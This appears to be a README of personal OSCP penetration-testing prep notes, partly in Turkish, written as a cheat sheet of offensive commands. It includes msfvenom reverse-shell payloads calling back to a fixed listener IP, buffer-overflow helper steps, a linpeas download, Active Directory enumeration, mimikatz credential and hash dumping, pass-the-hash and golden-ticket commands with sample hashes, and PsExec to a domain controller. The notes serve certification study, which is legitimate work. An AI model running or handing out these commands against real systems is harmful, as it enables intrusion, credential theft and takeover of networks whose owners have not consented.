 # OSCP-Prep-Notes

## İlk taramalar

nmap -sS -sV -v IP -p- #Tüm portlara stealth scan at.


gobuster dir -u http://192.168.174.101/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 #dir taraması

#-x php,txt,py,c,js,bak,gz,tar,html,db,php.bak,key,jsp,asp # extension taraması

#-b 404 -s 201 # status code özelleştirme

## BOF

!mona config -set workingfolder c:\mona\%p

!mona bytearray -b "\x00"

!mona compare -f C:\mona\<PATH>\bytearray.bin -a <ESP_ADDRESS/EBX_ADDRESS>

--

msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 -b "\x00\x0a\x0d\x20\x37" -o exploit.txt

sfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.136 LPORT=4444 EXITFUNC=thread -b "\x00\x0a\x0d\x25\x26\x2b\x3d" -f c

msfvenom -p windows/exec CMD="cmd.exe" -b '\x00\x0a\x1a' -f c


msf-pattern_create -l 5000 > exploit.txt

msf-pattern_offset -q 413461A2 -l 5000







## Privilege Escalation

wget "https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh" -O linpeas.sh

sudo -l

## Active Directory

net user # Enumerate all of the local accounts.

net user /domain # Enumerate all users in the entire domain.

net user admin_onur /domain # Enumerate spesific 'admin_onur' user in the domain.

net group /domain # Enumerate all the groups in the domain.



### mimikatz

privilege::debug # admin

lsadump::lsa /patch # ntlm pass hashes dump

klist #cached tickets

sekurlsa::logonpasswords #dump pass hashes

sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe

kerberos::golden /user:susan(herhangi bi user) /domain:exam.com /sid:S-1-5-21-88558181-3850747640-3669402957 /krbtgt:345caf37c36688f0afabed009787b7b2 /ptt

misc::cmd

PsExec64.exe \\dc01 cmd.exe # powershell veya cmd acildiginda dcye baglan



### PowerView

https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview



